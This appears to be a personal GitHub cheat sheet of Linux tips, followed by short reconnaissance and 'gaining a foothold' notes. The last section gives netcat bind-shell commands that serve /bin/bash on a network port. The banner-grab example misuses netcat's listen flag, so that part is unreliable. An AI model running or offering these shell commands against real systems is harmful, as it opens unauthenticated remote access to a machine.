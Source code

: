 # Linux  

## Check My IP `curl https://checkip.amazonaws.com`  

## Wait for a job/command to finish  
Will print PID and wait for the last PID in the queue
```
sleep 60 &
PID_number_of_last_command=$!
wait ${PID_number_of_last_command}

```

```sh
compgen -c # Will list all the commands you could run.
compgen -a # Will list all the aliases you could run.
compgen -b # Will list all the built-ins you could run.
compgen -k # Will list all the keywords you could run.
compgen -A function # Will list all the functions you could run.
```

# Reconnaissance  
## Netcat is not Ncat
Fun not-a-fact: Ncat comes from Nmap according to a post on a forum.
- Banner
```sh
# Print the banner of a webserver
nc -l $target_ip 80
```  
and then as a payload
```http
HEAD / HTTP/1.0
```

# Gaining a foothold
## Spawn a shell
```sh
port_number=$1
nc -l -p $port_number -e /bin/bash
```  
Spawn a shell: `nc -l -p 443 -e /bin/bash`  